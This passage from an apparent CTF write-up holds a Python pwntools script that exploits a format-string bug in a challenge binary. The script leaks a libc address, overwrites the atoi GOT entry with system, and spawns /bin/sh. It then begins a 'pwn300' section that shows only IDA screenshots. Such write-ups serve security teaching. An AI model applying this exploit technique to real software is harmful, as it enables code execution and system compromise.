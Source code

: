 ```
    #r.close()
    return info
autofmt = FmtStr(exec_fmt)
r.close()

r = process('/home/h11p/hackme/huxiangbei/pwne')
atoi_got_addr = elf.got['atoi']
print "%x" % atoi_got_addr
system_offset_addr = libc.symbols['system']
print "%x" % system_offset_addr

payload1="%35$p"

#debug()

r.recvuntil('WANT PLAY[Y/N]\n')
r.sendline('Y')
r.recvuntil('GET YOUR NAME:\n')
r.recvuntil('\n')
r.sendline(payload1)
libc_start_main = r.recv().splitlines()[1]
libc_module=base_addr(libc_start_main,0x18637)
system_addr=libc_module+system_offset_addr
print "system_addr:"+hex(system_addr)
r.sendline('10')

payload2 = fmtstr_payload(autofmt.offset, {atoi_got_addr: system_addr})
r.recvuntil('WANT PLAY[Y/N]\n')
r.sendline('Y')
r.recvuntil('GET YOUR NAME:\n')
r.recvuntil('\n')
r.sendline(payload2)
r.recv()
#r.sendline('10')
r.sendline('/bin/sh')
r.interactive()
r.close()
```
效果是：

![](https://ae01.alicdn.com/kf/HTB1oJnUaUT1gK0jSZFrq6ANCXXa4.jpg)

### pwn300
把pwn300直接拖入ida中：
main函数：

![](https://ae01.alicdn.com/kf/HTB1wTvQaFY7gK0jSZKzq6yikpXaO.jpg)

add函数：

![](https://ae01.alicdn.com/kf/HTB15VDTaSf2gK0jSZFPq6xsopXaO.jpg)
